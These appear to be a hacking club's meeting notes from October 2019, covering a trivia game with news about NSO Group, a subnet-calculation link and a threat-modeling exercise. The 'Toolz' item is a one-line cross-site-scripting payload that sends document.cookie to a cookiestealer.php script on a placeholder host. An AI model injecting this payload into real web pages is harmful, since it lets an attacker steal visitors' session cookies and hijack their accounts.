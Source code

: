 ```yaml
---
title:  "Meeting Notes for Oct. 31, 2019"
date:   2019-10-31
categories: notes
author: scrypy
---
```

# Meeting Notes Oct. 31, 2019:

## Hacker Jeopardy -> @scrypy
- **Newz:**
  - This famous hacking group is being sued by facebook for hacking into WhatsApp to spy on government officials and journalists. (NSOGroup)
- **Toolz:**
  - `document.location='http://127.0.0.1/cookiestealer.php?c='+document.cookie;`
- **Knawledge:**
  - this is how you determine the number of IPs available in a network from the netmas:
  https://community.spiceworks.com/networking/articles/2491-how-to-calculate-a-subnet-mask

## Hack the Planet! -> @scrypy
- Practice walking through a threat/risk analysis scenario by building an attack/defense plan for taking over the world!

<br>
@scrypy
